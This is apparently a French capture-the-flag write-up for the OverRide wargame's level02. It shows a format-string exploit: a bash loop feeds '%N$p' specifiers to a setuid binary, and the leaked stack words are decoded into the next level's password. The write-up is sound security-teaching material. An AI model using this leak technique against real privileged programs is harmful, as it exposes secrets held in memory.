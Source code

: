 # Level 02

```
level02@OverRide:~$ file level02
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

Ici tous les buffers sont sécurisés, pas contre un appel à printf est mal formaté.
Nous allons donc essayer d'afficher le `.pass` qui a été open par le programme et qui est dans la stack grâce à un appel à read.

On peut donc afficher toutes les premières adresses de la stack avec le [script bash](./resources/script.sh).

On cherche `5 valeurs hexa` à la suite, car 5 * 8 octets = 40 (la taille du buffer du `.pass` sans le null byte de fin)

On peut donc les décoder de l'hexa vers l'ascii, en inversant chaque byte du little endian, puis en assemblant le tout.

```bash
$ for((i=1;i<42;++i)); do echo "$i/%$i\$p" | ./level02 | grep does; done;
1/0x7fffffffe470 does not have access!
2/(nil) does not have access!
...
22/0x756e505234376848 does not have access!
23/0x45414a3561733951 does not have access!
24/0x377a7143574e6758 does not have access!
25/0x354a35686e475873 does not have access!
26/0x48336750664b394d does not have access!
...
38/(nil) does not have access!
39/(nil) does not have access!
40/0x2900000000 does not have access!
41/0x602010 does not have access!

$ python
>>> bytes.fromhex("756e505234376848")[::-1]
b'Hh74RPnu'
>>> bytes.fromhex("45414a3561733951")[::-1]
b'Q9sa5JAE'
>>> bytes.fromhex("377a7143574e6758")[::-1]
b'XgNWCqz7'
>>> bytes.fromhex("354a35686e475873")[::-1]
b'sXGnh5J5'
>>> bytes.fromhex("48336750664b394d")[::-1]
b'M9KfPg3H'
```
